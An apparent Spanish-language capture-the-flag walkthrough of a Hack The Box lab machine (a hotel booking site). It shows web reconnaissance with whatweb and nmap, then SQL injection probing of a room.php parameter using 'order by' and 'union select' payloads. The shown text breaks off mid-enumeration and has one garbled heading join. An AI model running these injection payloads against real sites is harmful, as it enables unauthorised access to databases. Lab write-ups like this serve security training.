 

### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.143
```

Vemos un dominio `logger.htb` pero poco mas. Añadimo el dominio a nuestro `/etc/hosts`

#### http-enum {-}

Lanzamos un web scan con nmap.

```bash
nmap --script http-enum -p80 10.10.10.143 -oN webScan
```

Vemos que hay un `/phpmyadmin`

#### Analyzando la web con Firefox {-}

Es una web de un hotel donde se puede hacer reservaciones. Cuando miramos mas en profundidad, nos damos cuenta de algo que nos 
llama la atencion `http://10.10.10.143/room.php?cod=6`

Si cambiamos el **cod** con numeros invalidos vemos que intenta mostrarnos algo sin mensajes de error. Vamos a comprobar si esta
vulnerable a injeccion SQL## Vulnerability Assessment {-}

### SQL Injection {-}

Intentamos ver si la web responde a un ordenamiento de datos para ver si es vulnerable a Injeccion SQL:

```bash
http://10.10.10.143/room.php?cod=-1 order by 1 -- -
http://10.10.10.143/room.php?cod=-1 order by 2 -- -
http://10.10.10.143/room.php?cod=-1 order by 3 -- -
http://10.10.10.143/room.php?cod=-1 order by 4 -- -
http://10.10.10.143/room.php?cod=-1 order by 5 -- -
http://10.10.10.143/room.php?cod=-1 order by 6 -- -
http://10.10.10.143/room.php?cod=-1 order by 7 -- -
http://10.10.10.143/room.php?cod=-1 order by 8 -- -
http://10.10.10.143/room.php?cod=-1 order by 9 -- -
```

Aqui no vemos nada. Intentamos ver con un union select si podemos enumerar las columnas

```bash
http://10.10.10.143/room.php?cod=-1 union select 1,2 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,3 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,3,4 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,3,4,5 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,3,4,5,6 -- -
http://10.10.10.143/room.php?cod=-1 union select 1,2,3,4,5,6,7 -- -
```
